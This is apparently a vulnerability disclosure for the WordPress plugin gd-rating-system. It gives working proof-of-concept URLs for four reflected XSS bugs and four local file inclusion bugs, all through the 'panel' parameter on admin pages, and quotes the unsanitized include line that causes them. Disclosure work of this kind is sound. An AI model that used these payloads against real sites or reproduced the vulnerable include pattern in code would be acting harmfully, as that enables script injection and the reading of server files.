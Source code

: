 Well ,sir ,I just found some XSS bugs and LFI(Local File Include) bug here.

#### XSS

Here different php files suffer from the bug, exactly, some other files also don't filter well.

##### XSS1

```
http://localhost/wordpress/wp-admin/admin.php?page=gd-rating-system-information&panel=x
```

Weak para poc：

```
panel=%27%22%3E%3Csvg%2Fonload%3Dconsole.log(%2Fxss%2F)%3E%3C%27%22
```

##### XSS2

```
http://localhost/wordpress/wp-admin/admin.php?page=gd-rating-system-about&panel=x
```

Weak para poc：

```
panel=%27%22%3E%3Csvg%2Fonload%3Dconsole.log(%2Fxss2%2F)%3E%3C%27%22
```


##### XSS3


```
http://localhost/wordpress/wp-admin/admin.php?page=gd-rating-system-transfer&panel=x
```

Weak para poc：

```
panel=%27%22%3E%3Csvg%2Fonload%3Dconsole.log(%2Fxss3%2F)%3E%3C%27%22
```


##### XSS4


```
http://localhost/wordpress/wp-admin/admin.php?page=gd-rating-system-tools&panel=x
```

Weak para poc：

```
panel=%27%22%3E%3Csvg%2Fonload%3Dconsole.log(%2Fxss4%2F)%3E%3C%27%22
```


![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/gd-rating-system/xss.png)

### LFI

Here we use the bug to include the "phpinfo.php" file in the wwwroot, exactly, we can include or read any file in the webserver.

##### LFI1 poc

```
http://localhost/wordpress/wp-admin/admin.php?page=gd-rating-system-information&panel=..%2F..%2F..%2F..%2F..%2F..%2Fphpinfo
```

Weak file：

```
/forms/information.php
```

Weak code:
```
include(GDRTS_PATH.'forms/panels/'.$_panel.'.php');
```

##### LFI2 poc

```
http://localhost/wordpress/wp-admin/admin.php?page=gd-rating-system-about&panel=..%2F..%2F..%2F..%2F..%2F..%2Fphpinfo
```

Weak file：

```
/forms/about.php
```

Weak code:
```
include(GDRTS_PATH.'forms/panels/'.$_panel.'.php');
```


##### LFI3 poc


```
http://localhost/wordpress/wp-admin/admin.php?page=gd-rating-system-transfer&panel=..%2F..%2F..%2F..%2F..%2F..%2Fphpinfo
```

Weak file：

```
/forms/transfer.php
```

Weak code:
```
include(GDRTS_PATH.'forms/panels/'.$_panel.'.php');
```


##### LFI4 poc


```
http://localhost/wordpress/wp-admin/admin.php?page=gd-rating-system-tools&panel=..%2F..%2F..%2F..%2F..%2F..%2Fphpinfo
```

Weak file：

```
/forms/tools.php
```

Weak code:
```
include(GDRTS_PATH.'forms/panels/'.$_panel.'.php');
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/gd-rating-system/lfi.png)


Well,  by the way, I just test these bugs in the wordpress 4.9.1 and the latest version of the wp-plugin gd-rating-system.